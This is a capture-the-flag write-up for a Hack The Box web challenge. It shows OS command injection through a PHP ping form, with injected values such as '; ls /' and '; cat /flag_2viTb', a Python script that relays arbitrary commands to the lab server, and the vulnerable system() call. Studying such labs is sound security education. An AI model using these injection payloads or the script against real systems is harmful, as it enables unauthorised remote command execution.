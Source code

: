 # Looking Glass

## Analysis

When we start the instance, we are met with an options menu:

![](<../../../../.gitbook/assets/image (2).png>)

It appears as if we can input the IP, which is then pinged. Let's imagine for a second how this could be implemented on the server side. A common trap developers can fall into is doing something like:

```php
system("ping -c 4 " + ip);
```

Essentially, we're passing the parameters to bash. This means we could, theoretically, insert a `;` character into the `ip` variable, and everything behind it would be interpreted as a seperate command, e.g.:

```php
system("ping -c 4 178.62.0.100; ls");
```

Here, `ls` would be run as a separate command. Let's see if it works!

## Exploitation

Let's try it by simply inputting `; ls` to the end of the IP and submitting:

```
PING 178.62.0.100 (178.62.0.100): 56 data bytes
--- 178.62.0.100 ping statistics ---
4 packets transmitted, 0 packets received, 100% packet loss
index.php
```

Look - as well as the `ping` command, we get `index.php`, which is the result of the `ls` command!

There doesn't appear to be a flag, so we'll try `; ls /` to read the root directory next:

```
PING 178.62.0.100 (178.62.0.100): 56 data bytes
--- 178.62.0.100 ping statistics ---
4 packets transmitted, 0 packets received, 100% packet loss
bin
boot
dev
entrypoint.sh
etc
flag_2viTb
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
www
```

Woo - there's a `flag_2viTb` file! Now we'll inject `; cat /flag_2viTb` to read the flag:

```
PING 178.62.0.100 (178.62.0.100): 56 data bytes
--- 178.62.0.100 ping statistics ---
4 packets transmitted, 0 packets received, 100% packet loss
HTB{I_f1n4lly_l00k3d_thr0ugh_th3_rc3}
```

And boom, we've got the flag - `HTB{I_f1n4lly_l00k3d_thr0ugh_th3_rc3}`.

## Automation

Because I prefer a command-line interface, I originally created a simple script to inject parameters for me:

```python
from requests import post

cmd = input('>> ')

data = {'test': 'ping', 'ip_address': f'178.62.0.100; {cmd}', 'submit': 'Test'}
r = post('http://178.62.0.100:30134/', data=data)

data = r.text
data = data.split('packet loss\n')[-1]
data = data.split('</textarea>')[0]

print(data.strip())
```

This simply inputs the command as `cmd`, sets the POST parameters, and (really messily) parses the response to return just the data.

```
$ python3 exploit.py 
>> cat /flag_2viTb      
HTB{I_f1n4lly_l00k3d_thr0ugh_th3_rc3}
```

## Checking the Source

We can inject `cat index.php` to see what exactly was happening, and we immediately see the following lines:

```php
function runTest($test, $ip_address)
{
    if ($test === 'ping')
    {
        system("ping -c4 ${ip_address}");
    }
    if ($test === 'traceroute')
    {
        system("traceroute ${ip_address}");
    }
}
```

As we guessed, it passed in the input _without sanitising it_ to remove potential injection.
